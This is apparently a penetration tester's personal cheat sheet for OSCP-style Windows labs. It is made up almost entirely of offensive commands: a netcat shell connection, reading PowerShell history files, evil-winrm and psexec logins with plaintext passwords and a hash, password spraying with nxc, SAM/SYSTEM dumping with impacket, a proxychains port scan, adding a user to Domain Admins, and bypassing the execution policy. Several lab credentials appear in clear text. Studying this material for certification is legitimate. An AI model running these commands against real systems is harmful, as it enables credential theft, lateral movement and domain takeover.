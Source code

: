 ```
nc 192.168.50.220 4444

systeminfo

whoami /groups

whoami /priv

Get-LocalUser

Get-LocalGroup

Get-LocalGroupMember adminteam

ipconfig /all

Get-LocalGroupMember adminteam

Get-LocalGroupMember Administrators

Get-History
```

To see the history words

```
(Get-PSReadlineOption).HistorySavePath
```

To display the content

```
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

To search in windows

```
cmd /c "dir local.txt /s /p"
cmd /c "dir proof.txt /s /p"
```

To login through proxychain
```
proxychains -q evil-winrm -i 172.16.145.200 -u c.rogers -p SqueakyRedDesk111
```

To find internal ip (nxc)

```
proxychains -q nxc smb 10.10.81.150-160 -u Administrator -p hghgib6vHT3bVWf --continue-on-success --local-auth
```

To download SAM and SYSTEM
```
impacket-secretsdump -sam SAM -system SYATEM local

impacket-mssqlclient sql_svc:Dolphin1@10.10.191.148 -windows-auth

login:- impacket-psexec -hash :dfjsdvsdjvsdvn tom@10.10.69.123
```

universal command after getting access

```
whoami && hostname && ipconfig && type proof.txt
```

One liner for nmap in windows
```
seq 1 65535 | xargs -P50 -I{} proxychains -q nc -z -v -w 1 172.16.145.200 {} 2>&1 | grep -v -iE 'refused|timed'
```

For making admin
```
proxychains -q net rpc group addmem "Domain Admins" "c.rogers" -U "oscp.exam"/"c.rogers" -S "172.16.145.200"

proxychains -q net rpc group members "Domain Admins" -U "oscp.exam"/"c.rogers" -S "172.16.145.200"

```

xfreerdp
```
xfreerdp /u:stephanie /d:corp.com /v:192.168.50.75

evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

powershell bypass
```
powershell -ep bypass
```
